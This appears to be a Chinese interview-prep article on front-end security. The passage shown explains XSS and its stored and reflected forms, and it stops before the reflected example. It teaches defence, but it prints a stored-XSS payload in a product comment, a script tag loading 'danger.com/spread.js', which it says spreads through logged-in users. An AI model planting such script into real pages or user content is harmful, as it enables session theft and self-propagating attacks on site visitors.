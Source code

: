 ## 你在项目中做过哪些安全防范措施？

> [https://mp.weixin.qq.com/s/-Co6EtDnnq2aFwD_gYGlDA](https://mp.weixin.qq.com/s/-Co6EtDnnq2aFwD_gYGlDA)

如果你被面试官问到这个问题，不要急于描述自己遇到的问题以及如何处理的，你得先去理解问题中的潜台词。“做过哪些措施”更深层的意思是“你熟悉哪些攻击方式，知道哪些解决方案？”当然，不可能把每次做的安全防范措施都一一的说给面试官听， 这样显得没有重点。

「做哪些安全防范」换个思维思考“有哪些攻击方式？”，那么我们就可以基于攻击方式的分类，来讨论究竟有哪些防范攻击的措施。

从而可以梳理出关于这个问题回答的思路：

![图片](https://mmbiz.qpic.cn/mmbiz_png/XreO2C3bBIU9Lbm7ibmOT076Rd63ZJNCwriciciaWGpWVULovicS6JXQSVNF5N9fGSXzzemsvwHx2DVEML6Vt0tibW2w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

## XSS 攻击

按照之前说的思路，先讲概念，说用途

### 什么是XSS攻击

XSS即`Cross Site Scripting`（跨站脚本攻击）,指的是攻击者想尽一切办法将一些可执行的代码注入到网页中，利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。`为了不和层叠样式表CSS混淆，故将其缩写为 XSS`

XSS 可以分为：存储型 XSS (也叫持久型 XSS)、反射型 XSS (也叫非持久型)。

#### 存储型

存储型也就是攻击的代码被服务端写入进数据库中，这种攻击危害性很大，因为如果网站访问量很大的话，就会导致大量正常访问页面的用户都受到攻击。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

#### 反射型

反射型也叫非持久型，相比于前者危害就小一些，一般通过修改 URL 参数的方式加入攻击代码，诱导用户访问链接从而进行攻击。

这种常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

> 二者区别：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

举两个案例帮助更好的理解：当我们在做商品评论时，用户输入的内容未经过过滤直接保存到数据库中。

攻击者可以构建一条评论， 包含恶意内容：

```
质量非常不错！<script src="danger.com/spread.js"></script>
```

当你的评论列表被用户浏览时， 直接从服务端取出，回填到HTML响应中：

```
<li>质量非常不错！<script src="danger.com/spread.js"></script></li>
```

那么浏览器会加载执行恶意脚本`danger.com/spread.js`， 在恶意脚本中利用用户的登录状态发更多的带有恶意评论的URL， 诱导更多人点击，层层传播，放大攻击范围。

这个案例就是一个典型的存储型XSS攻击。再来看一个**反射型**攻击案例：

某天小范开发了一个搜索页面，通过用户输入搜索内容，展示相应的数据：
